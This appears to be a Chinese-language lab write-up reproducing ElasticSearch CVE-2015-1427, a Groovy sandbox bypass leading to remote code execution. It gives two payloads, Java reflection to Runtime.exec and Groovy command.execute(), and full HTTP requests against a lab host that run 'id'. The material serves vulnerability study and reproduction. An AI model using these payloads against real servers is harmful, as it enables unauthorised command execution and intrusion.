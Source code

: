 # ElasticSearch Groovy 沙盒绕过 & 代码执行漏洞 CVE-2015-1427

## 漏洞描述

CVE-2014-3120后，ElasticSearch默认的动态脚本语言换成了Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。本漏洞：1.是一个沙盒绕过； 2.是一个Goovy代码执行漏洞。

参考阅读：

- http://cb.drops.wiki/drops/papers-5107.html
- http://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/
- https://github.com/XiphosResearch/exploits
- http://cb.drops.wiki/drops/papers-5142.html

**Groovy语言“沙盒”**

ElasticSearch支持使用“在沙盒中的”Groovy语言作为动态脚本，但显然官方的工作并没有做好。lupin和tang3分别提出了两种执行命令的方法：

1. 既然对执行Java代码有沙盒，lupin的方法是想办法绕过沙盒，比如使用Java反射
2. Groovy原本也是一门语言，于是tang3另辟蹊径，使用Groovy语言支持的方法，来直接执行命令，无需使用Java语言

所以，根据这两种执行漏洞的思路，我们可以获得两个不同的POC。

Java沙盒绕过法：

```
java.lang.Math.class.forName("java.lang.Runtime").getRuntime().exec("id").getText()
```

Goovy直接执行命令法：

```
def command='id';def res=command.execute().text;res
```

## 漏洞复现

jre版本：openjdk:8-jre

elasticsearch版本：v1.4.2

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：

```
POST /website/blog/ HTTP/1.1
Host: 192.168.44.132:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "test"
}
```

然后发送包含payload的数据包，执行任意命令：

```
POST /_search?pretty HTTP/1.1
Host: 192.168.44.132:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```

结果如图所示：

![image-20230328161241539](images/image-20230328161241539.png)